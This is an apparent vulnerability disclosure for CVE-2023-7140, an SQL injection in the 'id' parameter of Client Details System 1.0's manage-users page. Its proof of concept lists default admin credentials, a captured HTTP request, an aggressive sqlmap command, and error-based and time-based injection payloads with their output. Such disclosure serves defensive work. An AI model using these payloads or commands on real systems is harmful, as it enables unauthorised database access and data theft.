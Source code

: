 # CVE-2023-7140_Client_Details_System-SQL_Injection_4
+ **Exploit Title:** CVE-2023-7140_Client_Details_System-SQL_Injection_4
+ **Date:** 2023-26-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/client-details-system-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/01/CLIENT_DETAILS_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-2023-7140

## References: 
+ **CVE-2023-7140:** https://vuldb.com/?id.249143
+ https://www.cve.org/CVERecord?id=CVE-2023-7140
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-7140

## Description:
Client Details System 1.0 allows SQL Injection via parameter 'id' in "/clientdetails/admin/manage-users.php?id=1". Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the Admin Panel: "http://localhost/clientdetails/admin/"
+ Fill User Id and Password with `admin`:`client123` and log in.
+ Manage Users: "http://localhost/clientdetails/admin/manage-users.php"
+ Then click Delete button for any user: "http://localhost/clientdetails/admin/manage-users.php?id=1"
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Captured Burp request:
```
GET /clientdetails/admin/manage-users.php?id=1 HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Cookie: PHPSESSID=p5mgq2eci66sik6s94eakcjub9
Referer: http://localhost/clientdetails/admin/manage-users.php
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

```

+ Use sqlmap to exploit. In sqlmap, use 'id' parameter to dump the database. 
```
python sqlmap.py -r r.txt -p id --risk 3 --level 5 --threads 1 --random-agent tamper=between,randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db
```

```
---
Parameter: id (GET)
    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: id=1' AND EXTRACTVALUE(3346,CONCAT(0x5c,0x716b6a7a71,(SELECT (ELT(3346=3346,1))),0x7171707171))-- gsCH

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1' AND (SELECT 9169 FROM (SELECT(SLEEP(5)))gCdu)-- FiYL
---
[17:48:57] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.1.6, Apache 2.4.53
back-end DBMS: MySQL >= 5.1 (MariaDB fork)
[17:48:57] [INFO] fetching current database
[17:48:57] [INFO] retrieved: 'loginsystem'
current database: 'loginsystem'
```

+ current database: `loginsystem`
![4](https://github.com/h4md153v63n/CVEs/assets/5091265/2db1ab40-749f-4e0c-943b-fd362f079d0b)
